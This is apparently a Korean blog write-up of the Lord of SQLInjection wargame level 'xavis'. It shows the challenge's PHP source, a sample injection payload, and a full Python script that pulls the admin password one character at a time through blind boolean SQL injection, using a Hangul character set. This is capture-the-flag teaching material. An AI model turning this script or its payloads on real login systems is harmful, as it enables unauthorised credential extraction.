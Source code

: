```yaml
---
layout: post
title: ! "[LOS] xavis"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - LOS
  - write-up
---
```



### xavis 한글 조합 셋으로 풀기

`query : select id from prob_xavis where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`?pw=1' or length(pw)='1`와 같은 쿼리가 필터링 없이 잘 적용된다
이 쿼리로 알아낸 패스워드의 길이는 12이다.

알파벳,숫자 조합,substr로 패스워드를 한 글자씩 알아내려고 하면 Hello guest만 뜨고 admin의 경우는 알 수가 없다.

그래서 알아봤더니 패스워드가 한글이어서 그렇다!!
다른 분들은 Hex 값으로 알아낸 후 10진수로 바꿔주고 그 값을 한글로 바꿔주는 방식을 사용하셨는데,
답이 한글이라는 것을 알고있다는 전제 하에 한글 조합셋으로 문제를 푸는 코드를 짜봤다.
[한글 조합 파일](https://github.com/MitNy/Python-Web-Hacking/blob/master/LOS/hangul.txt)도 직접 만들었다.. 


```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/xavis.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""
f = open("hangul.txt",mode="rt", encoding="utf-8")
line = f.read()
n_split = line.split("\n")
hangul = n_split[0].split(" ")
for i in range(0,len(hangul)):
    alpha += hangul[i]

for i in range(1,20):
    parameter = "?pw=1%27%20or%20length(pw)=%27"+str(i)+"%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break

for j in range(1,length):
    for i in alpha:
        parameter = "?pw=1%27%20or%20substr(pw,"+str(j)+",1)=%27"+str(i)
        print(parameter)
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(j) + " -> " + str(i))
            result += str(i)
            break

    if j == 1 and result == "":
        print("password not found")
        exit(0)

    if j == length-1:
        result = result.lower()
        print("\npassword is "+result)
        print("\n")
```

진짜진짜 오래걸리니 Hex 값을 이용해 문제를 푸는 방식을 추천 드립니다

![]({{ site.baseurl }}/assets/posts/los/xavis_result.png)

![]({{ site.baseurl }}/assets/posts/los/xavis_clear.png)
